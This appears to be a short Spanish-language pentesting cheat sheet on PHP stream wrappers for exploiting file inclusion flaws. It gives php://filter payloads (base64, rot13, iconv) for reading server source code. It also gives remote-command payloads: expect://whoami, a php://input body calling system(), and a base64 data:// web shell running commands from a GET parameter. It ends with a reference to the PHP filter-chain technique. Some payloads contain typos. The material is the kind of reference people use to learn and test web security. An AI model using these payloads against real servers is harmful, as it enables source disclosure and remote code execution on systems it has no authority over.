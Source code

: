 ----
- Tags: #basico #teoria #practica
----

# Wrappers 

- ## Representar recursos en base64 

### Esto sirve para apuntar a recursos y mostrarlos en base64, sobre todo para archivos .php los cuales se interpretan por el navegador. 

### `php://filter/convert.base64-encode/recourse=index.php`

### De esta manera podriamos copiar la cadena base64, guardarlo en un archivo y luego con `cat file | base64 -d | sponge file` lo decodeamos y volvemos a guardar en el mismo archivo.

### Tambien existen otros como `php://filter/read=string.rot13/resource=index.php` y luego con comandos de bash comp `cat {data} | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'` podriamos obtener el resultado final.

### Tambien podria realizarse juganco con **iconv** `php://filter/convert.iconv.utf-8.utf-16/resource=index.php`. 

---

- ## Intentar ejecutar comandos a nivel de sistema 

### Esto se podria intentar con `expect://whoami`. 

### Otra manera es con `php://input`, cambiando el metodo GET a *POST* para mandar en el body un script en php, com por ejemplo: `<?php system("whoami"); >?`

### Otra es con `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==`, siendo `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==`  una cadena en base64 de `<?php system($_GET['cmd']); ?>` 

### Y por ultimo esto se podria hacer con [php filter chain](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) el cual es una técnia medianamente nueva, la cual consiste en abusar de un funcionamiento raro de php el cual jugando con encodings y decodings podemos injectar caracteres, pudiendo asi yendo caracter a caracter, escribir codigo php para ejecutar lo que quisieramos. 

